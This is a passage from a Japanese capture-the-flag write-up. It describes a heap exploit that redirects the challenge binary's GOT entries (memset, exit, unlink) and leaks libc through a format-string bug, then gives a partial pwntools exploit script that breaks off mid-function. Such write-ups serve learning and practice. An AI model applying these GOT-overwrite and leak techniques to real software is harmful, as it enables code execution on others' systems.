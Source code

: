 そこで、まず最初に `memset` の GOT へ top を向けて、それを `ret` とかで潰します。

このまま進めると、次の入力バッファの確保で `memset` から 16 バイト離れた `syscall` が返されるのですが、プログラム中に文字列を NULL 終端で初期化するコードがあり、`syscall` の最下位バイトが 0 になってしまいます。これは SEGV に繋がります。
これを解決するため、top に設定する値を `memset - 1` にしました。これによって、これ以降確保されるメモリ領域が 1 バイトずつずれ、0 で上書きされてしまうバイトを最上位バイトにすることができます。
(追記: ついでに `exit` も潰しておきます)

さて、これで好きな場所のメモリを取ってこれるようになったので、もう一週して top を書き換え、今度は `unlink` を改ざんしていきます。libc のベースアドレスリークができていないので、`unlink` を `printf@plt` にして FSB でアドレスリークを行います。これはよく使われるテクニックなのでパパっと使えるようになりたい。

オフセット調整を頑張ると libc がリークでき、更にもう一週して `unlink` を `system` に向けたら勝ちです。

exploit.py

```python
from pwn import *

binary = ELF('./sus?', checksec=True)

def exploit():
    stream = gdb.debug("./sus?", exe="./sus?_dbg", gdbscript = """
        # watch global_buffer if global_buffer < 0x4040a0
        handle SIGALRM ignore
        # b 436
    """)

    buf_end = 0x40649f

    stream.send(b"\x00" * 570) # fill the buffer

    ret = 0x000000000040101a
    stream.sendline(b"A" * 32 + pack(binary.got['memset'] - 1)[:3])
    stream.sendline(b'P' + pack(ret)[:3])
    # memset -> ret

    def get_fill_from(addr: int):
        return (buf_end - 1 - addr) // 0x10

    stream.send(b"\x00" * (get_fill_from(binary.got['memset']) - 5))
    # now global_buffer = 0x40644f

    payload = b'X' * (buf_end + 1 - 0x40644f) + pack(binary.got['unlink'] - 1)[:3]
    stream.sendline(payload)

    printf_plt = 0x401080
    stream.sendline(b'Q' + pack(printf_plt)[:3])

    stream.send(b'\x00' * (get_fill_from(binary.got['unlink']) - 5))

    payload = b'X' * (buf_end + 1 - 0x40644f) + pack(binary.got['exit'] - 1)[:3]
    stream.sendline(payload)

    stream.sendline(b'R' + pack(ret)[:3])
    # exit -> ret

    stream.sendline(b'\x00' * 10)

    def exec_fmt(payload):
        stream.sendline(b"sus")
        stream.sendline(b"sus" + payload)

        stream.readuntil(b'SUS ALERT!!!')
        stream.readuntil(b'!!!\n')
        stream.readuntil(b'sus')

```